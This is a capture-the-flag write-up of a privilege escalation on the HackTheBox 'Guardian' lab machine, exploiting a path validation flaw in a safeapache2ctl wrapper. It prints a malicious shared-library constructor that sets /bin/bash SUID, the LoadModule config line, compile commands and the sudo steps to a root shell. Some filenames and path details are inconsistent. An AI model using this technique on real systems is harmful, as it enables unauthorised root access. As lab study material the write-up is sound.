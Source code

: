 # SafeApache2ctl Privilege Escalation - Shared Library Hijacking Technique Breakdown
- Found `HTB` Guardian privilege Escalation path very interesting , challenging box nonetheless.
- Taking notes for future references, referenced blog post on Guardian by [HYH](https://www.hyhforever.top/posts/2025/09/htb-guardian/).


####  Overview
This exploit leverages a path validation vulnerability in `safeapache2ctl` to load a malicious shared library with root privileges, resulting in persistent privilege escalation through `SUID` binary creation.


### Vulnerability Analysis

##### Core Vulnerability: Flawed Path Validation
The `safeapache2ctl` binary contains a vulnerable function `is_unsafe_line()` with improper path sanitization:

```bash
// Flawed validation logic
if (local_1018[0] == '/') {  // Only check absolute paths
    iVar1 = starts_with(local_1018,"/home/mark/confs/");
    if (iVar1 == 0) {
        // Block access
    }
}
// Relative paths bypass this check entirely!
```

### Security Control Bypass
- Intended Security: Restrict file operations to `/home/mark/confs/`
- Actual Behavior: Any file in the allowed directory can be referenced, including malicious shared libraries
- Bypass Method: Use absolute paths within the trusted directory that point to malicious content

### Attack Vectors

#### Exploitable Directives
The vulnerability affects three Apache configuration directives:
- `Include` - File inclusion
- `IncludeOptional` - Optional file inclusion
- `LoadModule` ⭐ Most Dangerous - Shared library loading
#### Why `LoadModule` is Critical

```c
// Apache processes this directive:
LoadModule evil_module /home/mark/confs/evil.so

// Which triggers:
dlopen("/home/mark/confs/evil.so")  // Loads shared library
// Constructor executes automatically with Apache's privileges
```
### Payloads
#### Payload Development
- `evil.c`, create malicious library
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

__attribute__((constructor)) void init() {
    setuid(0);
    system("chmod +s /bin/bash");
}
```
- `__attribute__((constructor))` - Function executes automatically on library load
- `setuid(0)` - Elevates privileges to root
- `chmod +s /bin/bash` - Creates persistent SUID root binary
#### Exploit Configuration
- `exploit.conf `, create exploit configuration and achieves code execution via shared library constructor
```bash
LoadModule evil_module /home/mark/confs/evil.so
```

### Reproduce The Attack
- Place `evil.c` in `/home/mark/`
- Place `evil.conf` in `/home/mark/conf`
- Compile the shared library 
```bash
$ gcc -shared -fPIC -o /home/mark/confs/evil.so /home/mark/evil.c
```
- Run `safeapache2ctl` as `sudo`
```bash
$ sudo /usr/local/bin/safeapache2ctl -f /home/mark/confs/exploit.conf
```
- Run `bash` in privileged mode
```bash
$ bash -p
$ whoami  
root
```
